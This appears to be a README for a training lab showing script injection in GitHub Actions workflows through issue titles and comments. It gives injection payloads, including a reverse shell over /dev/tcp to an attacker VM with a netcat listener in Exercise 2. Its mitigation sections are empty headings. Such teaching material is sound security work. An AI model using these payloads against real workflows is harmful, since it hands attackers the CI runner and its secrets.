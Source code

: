 # workflow-script-injection

The [Check issue title](.github/workflows/check-issue-title.yml) workflow simply checks if the title of the workflow begins with `octocat`. If so, the workflow succeeds. If not, the workflow fails.

The [Check issue comment](.github/workflows/check-issue-comment.yml) workflow simply checks if the issue comment begins with `octocat`. If so, the workflow succeeds. If not, the workflow fails.

These workflows are vulnerable to script injection. Let's find out why.

## Exercise 1 - Script injection in the run command
The [Check issue title](.github/workflows/check-issue-title.yml) workflow uses the issue title in the `run` command as follows:
```
title="${{ github.event.issue.title }}"
```
This provides an opportunity for an attacker to exploit the workflow with an issue titled `octocat"; ls -l $GITHUB_WORKSPACE"`. Using this title, the script looks like the following...
```
title="octocat"; ls -l $GITHUB_WORKSPACE"
```

Let's create a new issue with this title and see what happens. We observe that the workflow runs the command `ls -l $GITHUB_WORKSPACE`!  

<img width="1042" alt="Screenshot 2023-08-30 at 7 38 43 PM" src="https://github.com/robandpdx/workflow-script-injection/assets/95243761/e3fa3917-2834-45cc-a297-d25614c3185e">

Ok. Big deal. So we were able to see what is in the workspace directory. Who cares?  
Now let's try something a little more sinister...

## Exercise 2 - Getting a shell on the runner
Spin up a linux vm in the cloud that has a public IP address. Login and run `nc -nvlp 1337`. Then open a new issue with the title `octocat"; bash -i >& /dev/tcp/<YOUR-VM-IP-ADDRESS>/1337 0>&1 ; ls -l $GITHUB_WORKSPACE"`  

Now I have a shell on the runner! This is a great "foot in the door" from which I can attemp other exploits, like dumping secrets or cloud credentials to use in other attacks.  

## Exercise 3 - Script injection in github-script action
The [Check issue comment](.github/workflows/check-issue-comment.yml) workflow uses issue comment body in the [github-script actions](https://github.com/actions/github-script) as follows:
```
const comment="${{ github.event.comment.body }}"
```
This provides an opportunity for an attacker to exploit the workflow with an issue comment `octocat";console.log('WTF!!!');//`. Using this title, the script looks like the following...
```
const comment="octocat";console.log('WTF!!!');//"
```

Let's create a new issue comment with this body and see what happens. We observe that the workflow runs the command `console.log('WTF!!!');//`!  

<img width="1034" alt="Screenshot 2023-08-30 at 9 07 51 PM" src="https://github.com/robandpdx/workflow-script-injection/assets/95243761/8730dc36-b596-4766-b24a-ec85209a6763">

## Exercise 4 - Mitigate script injection in the run command


## Exercise 5 - Migrate script injection in github-script action


## Exercise 6 - Mitigate by using a github action

